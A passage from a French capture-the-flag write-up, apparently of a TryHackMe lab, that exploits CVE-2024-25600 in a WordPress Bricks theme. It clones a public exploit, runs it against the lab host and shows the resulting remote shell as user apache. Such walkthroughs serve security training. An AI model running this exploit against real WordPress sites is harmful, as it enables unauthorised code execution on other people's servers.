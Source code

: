 Plus d’infos ici :

- NVD : https://nvd.nist.gov/vuln/detail/CVE-2024-25600
- GitHub (exploit de Chocapikk) : https://github.com/Chocapikk/CVE-2024-25600

Vous pouvez aussi coder votre propre script Python, mais ici je vais utiliser celui de **Chocapikk**.

## Exploitation de WordPress

On commence par cloner le dépôt contenant l’exploit :

```bash
git clone https://github.com/Chocapikk/CVE-2024-25600.git
Clonage dans 'CVE-2024-25600'...
remote: Enumerating objects: 51, done.
remote: Counting objects: 100% (51/51), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 51 (delta 18), reused 45 (delta 12), pack-reused 0 (from 0)
Réception d'objets: 100% (51/51), 20.83 Kio | 2.60 Mio/s, fait.
Résolution des deltas: 100% (18/18), fait.

```

Afin de faire une installation correcte, il est fortement recommandé de créer un environnement virtuel Python pour installer les dépendances du script Python.

Pour ce faire, nous pouvons utiliser la commande suivante :

```bash
python3 -m venv CVE-2024-25600-env # <- Vous pouvez le nommer comme vous voulez
source CVE-2024-25600-env/bin/activate # Nous activons ensuite l'environnement virtuel
pip install -r requirements.txt # Nous installons ensuite les dépendances

# Vous pouvez désactiver le venv en utilisant la commande suivante
deactivate
```

Bien, essayons maintenant de lancer le script !

```bash
chmod +x exploit.py # Donner les permissions d'exécution
python exploit.py -u https://bricks.thm/

[*] Nonce trouvé : 5f3fce1e00 # Vous pouvez également obtenir cette valeur dans le code source du site web
[+] https://bricks.thm/ est vulnérable à CVE-2024-25600. Sortie de la commande : apache
[!] Le shell est prêt, veuillez taper vos commandes UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

```

C'était rapide ! Nous avons enfin une session shell, génial !

Nous pouvons maintenant récupérer le premier flag sous /data/www/default
